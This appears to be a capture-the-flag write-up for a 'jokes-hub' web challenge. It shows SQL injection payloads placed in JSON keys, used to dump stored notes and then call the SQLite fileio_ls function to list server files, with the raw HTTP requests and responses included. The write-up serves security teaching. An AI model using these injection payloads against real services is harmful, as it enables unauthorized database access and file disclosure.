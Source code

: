 ```
POST /jokes HTTP/1.1
Host: jokes-hub-1.bsides.shellmates.club
...
Connection: close

{"note from notes LIMIT 200 OFFSET 1;--":100}
```

```
HTTP/1.1 200 OK
server: nginx/1.22.0 (Ubuntu)
date: Sat, 06 May 2023 07:18:39 GMT
content-type: application/json
content-length: 50
connection: close

{"result":"Use prepaired queries instead of the"}
```

From there, by changing the offset, we get the following notes :

 - Add function to upload jokes
 - Use prepaired queries instead of the unload fileio from the production server


For the first note, it seems that we need to look for an upload function for jokes and see what can we use about it.

As for the second note, This note is likely referring to a security concern related to handling user input in an API that serves jokes and punchlines. It is advising the developer to use prepared queries instead of directly using user input to construct SQL queries, and to avoid executing arbitrary SQL code from user input on the production server

On the other hand, the note is warning against using "unload fileio" on the production server. This could refer to a technique where SQL queries are constructed dynamically by reading them from a file or other external source, rather than using prepared queries. This approach can be dangerous because it may allow an attacker to inject arbitrary SQL code into the query by manipulating the contents of the file or other external source.

After searching for sqlite, flieio, and sql injection, we found the following :

> fileio: Read and Write Files in SQLite
> 
> Access the file system directly from SQL. Partly based on the fileio.c by D. Richard Hipp.

This is a set of functions that help us check and read files. So let's try few things :

```
POST /jokes HTTP/1.1
Host: jokes-hub-1.bsides.shellmates.club
Content-Length: 60
Sec-Ch-Ua: "Not;A=Brand";v="99", "Chromium";v="106"
...
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

{"name from fileio_ls('.', true) LIMIT 200 OFFSET 1;--":100}
```
